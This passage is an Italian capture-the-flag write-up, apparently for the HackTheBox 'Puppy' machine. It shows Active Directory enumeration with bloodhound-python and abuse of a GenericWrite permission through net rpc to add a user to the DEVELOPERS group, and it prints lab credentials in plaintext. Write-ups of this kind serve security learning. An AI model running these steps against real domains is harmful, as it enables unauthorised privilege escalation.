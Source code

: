 ### BloodHound

Si raccolgono informazioni su **AD** con **bloodhound-python**.

```bash

$ bloodhound-python -d PUPPY.HTB -c all -ns 10.x.x.x -u 'levi.james' -p 'KingofAkron2025!' --zip

```

Si visualizzano permessi e possibili *path* di attacco con **BloodHound**.

![BHCE-1](./img/bhce-1.png)

## Member of Developers

Si sfrutta il permesso di **GenericWrite** per aggiungere **levi.james** al gruppo **DEVELOPERS**.

```bash

# Add Member
$ net rpc group addmem 'DEVELOPERS' 'levi.james' -U 'PUPPY.HTB'/'levi.james'%'KingofAkron2025!' -S 'DC.PUPPY.HTB'

# Get Members of Developers
$ net rpc group members 'DEVELOPERS' -U 'PUPPY.HTB'/'levi.james'%'KingofAkron2025!' -S 'PUPPY.HTB' 
PUPPY\levi.james
PUPPY\ant.edwards
PUPPY\adam.silver
PUPPY\jamie.williams

```
